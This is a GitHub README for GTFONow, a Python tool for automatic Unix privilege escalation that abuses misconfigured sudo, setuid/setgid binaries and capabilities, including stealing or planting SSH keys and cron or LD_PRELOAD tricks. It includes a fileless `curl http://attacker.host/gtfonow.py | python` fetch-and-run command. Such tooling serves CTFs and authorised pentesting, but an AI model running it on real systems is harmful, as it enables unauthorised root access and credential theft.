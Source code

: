 [![Main Branch](https://github.com/Frissi0n/GTFONow/actions/workflows/docker-pytest.yml/badge.svg?branch=main)](https://github.com/Frissi0n/GTFONow/actions/workflows/docker-pytest.yml)

# GTFONow

Automatic privilege escalation on unix systems by exploiting misconfigured setuid/setgid binaries, capabilities and sudo permissions. Designed for CTFs but also applicable in real world pentests.

[![asciicast](https://asciinema.org/a/625026.svg)](https://asciinema.org/a/625026)

## ✅ Features

- Automatically exploit misconfigured sudo permissions.
- Automatically exploit misconfigured suid, sgid permissions.
- Automatically exploit misconfigured capabilities.
- Automatically convert arbitrary file read primitive into shell by stealing SSH keys.
- Automatically convert arbitrary file write primitive into shell by dropping SSH keys.
- Automatically convert arbitrary file write primitive into shell by writing to cron.
- Automatically convert arbitrary file write primitive into shell using LD_PRELOAD.
- Single file, easy to run fileless with `curl http://attackerhost/gtfonow.py | python`

# 💻 Usage

To use `GTFONow`, simply run the script from your command line. The basic syntax is as follows:

```shell
python gtfonow.py [OPTIONS]
```

It can also be run by piping the output of curl:

```shell
curl http://attacker.host/gtfonow.py | python
```

## Options

- `--level`: Sets the level of checks to perform. You can choose between:
  - `1` (default) for a quick scan.
  - `2` for a more thorough scan.
  - Example: `python gtfonow.py --level 2`
- `--risk`: Specifies the risk level of the exploit to perform. The options are:
  - `1` (default) for safe operations.
  - `2` for more aggressive operations such as file modifications, primarily for use in CTFs, if using on real engagements, ensure you understand what this is doing.
  - Example: `python gtfonow.py --risk 2`
- `--command`: Issues a single command instead of spawning an interactive shell. This is mainly for debugging purposes.
  - Example: `python gtfonow.py --command 'ls -la'`
- `--auto`: Automatically exploits without user wizard.
- `-v`, `--verbose`: Enables verbose output.
  - Example: `python gtfonow.py --verbose`

## Compatibility

By design GTFONow is a backwards compatible, stdlib only python script, meaning it should work on any variant of Unix if Python is installed.

- Python2.\*
- Python3.\*
- No 3rd party dependencies
- Any Unix Variant (Linux, MacOS,\*Nix)
- Any architecture eg (X86/ARM64/X86-64)

## 🙏 Credits

- Payloads thanks to [GTFOBins](https://gtfobins.github.io/).
